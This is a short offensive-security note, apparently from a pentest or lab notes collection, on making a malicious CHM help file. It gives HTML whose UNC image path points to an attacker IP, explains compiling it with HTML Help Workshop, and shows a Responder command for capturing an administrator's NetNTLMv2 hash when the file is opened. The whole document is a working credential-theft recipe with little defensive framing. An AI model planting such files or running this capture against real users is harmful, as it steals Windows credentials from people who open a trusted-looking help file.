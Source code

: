 # CHM Files



### Malicious CHM

A CHM file is a compiled HTML file that is used for "Help Documentation".

In order to exploit this, we can create a new CHM file containing a UNC link, that will trigger a connection to our server on opening. This will allow us to steal the admin's NetNTLMv2 hashes. Consider the following HTML code.

```markup
<html>
    <body>
        <img src=\\10.10.14.23\share\abc.png />
    </body>
</html>
```

We will place the above code into instructions.html, and use the [HTML Help Workshop](http://www.helpgenerator.com/html_help_workshop.htm) on a Windows machine to compile the code. Download and install `htmlhelp.exe` .

Listen with responder on our localhost:

```text
python Responder.py -I tun0
```

Wait for an admin to access the file and get the hash.

